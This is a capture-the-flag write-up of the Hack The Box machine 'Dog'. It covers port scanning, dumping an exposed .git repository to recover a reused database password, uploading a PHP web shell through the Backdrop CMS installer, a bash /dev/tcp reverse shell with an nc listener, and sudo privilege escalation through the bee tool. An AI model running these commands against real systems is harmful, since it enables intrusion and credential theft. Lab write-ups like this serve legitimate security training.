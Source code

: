 # Dog Writeup - by Thammanant Thamtaranon
  - Dog is an easy Linux machine on Hack The Box.

## Reconnaissance
  - First, we run the command `nmap -A -T4 -p- -Pn 10.10.11.58` to identify open TCP ports and their service information.  
![Nmap_Scan](Nmap_Scan.png)
  - From the scan, we gather several details:
  - We discover that we can access `robots.txt`, which contains a list of entries.
  - The target is running CMS Backdrop version 1.
  - The web server is Apache httpd 2.4.41.
  - There is a `.git` directory present.

## Scanning & Enumeration
  - With port 80 open, we use the command `dirsearch -u 10.10.11.58` to enumerate directories.  
![Dirsearch_Scan](Dirsearch_Scan.png)
  - After enumerating, we find the user `tiffany@dog.htb` in the file located at `http://10.10.11.58/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json`.
  - I attempted common passwords, but unfortunately, they were unsuccessful.
  - We use GitTools to dump all Git objects using the command `./gitdumper.sh http://10.10.11.58/.git/ .`.
  - Then we run `git checkout .` and search for credentials.
  - Reading the file `settings.php`, we find the database password:  
    `$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';`
  - Using the username `tiffany@dog.htb` and the database password `BackDropJ2024DS2024`, we got in.

## Exploitation
  - After gaining access as Tiffany, we search for Backdrop exploits using `searchsploit`.  
![Searchsploit](Searchsploit.png)
  - We navigate to `http://10.10.11.58/?q=admin/installer/manual` to manually install our web shell.
  - Since the `.zip` extension is blocked, we compress our shell folder into a `.tar.gz` archive with the command `tar -cvf shell.tar.gz shell`.
  - We then visit `http://10.10.11.58/modules/shell/shell.php` and test commands such as `id`.  
![Shell](Shell.png)
  - With the shell working, we establish a reverse shell using:  
    `bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1'`  
  - On our machine, we listen with:  
    `nc -lvnp 4444`
  - We have to be quick since it seems some script is deleting our shell.
  - Next, we run `cat /etc/passwd` to enumerate users.  
![Users](Users.png)
  - We confirm there are two users: `jobert` and `johncusack`.
  - After searching for useful information without success, I tried SSH with both users using previously found passwords and successfully logged in as `johncusack`.
  - We retrieve the user flag.
  - Running `sudo -l` shows us the commands we can run with elevated privileges.  
![SUDO](SUDO.png)
  - We notice that `/usr/local/bin/bee` can be run with sudo, so we explore it for privilege escalation.
  - Running `/usr/local/bin/bee` reveals the option to use `eval`, but returns the error:  
    "The required bootstrap level for 'eval' is not ready."
  - After researching, I learned that the root directory must be specified because Bee requires bootstrapping the Backdrop CMS.  
![Root](Root.png)
  - Finally, we obtain the root flag.
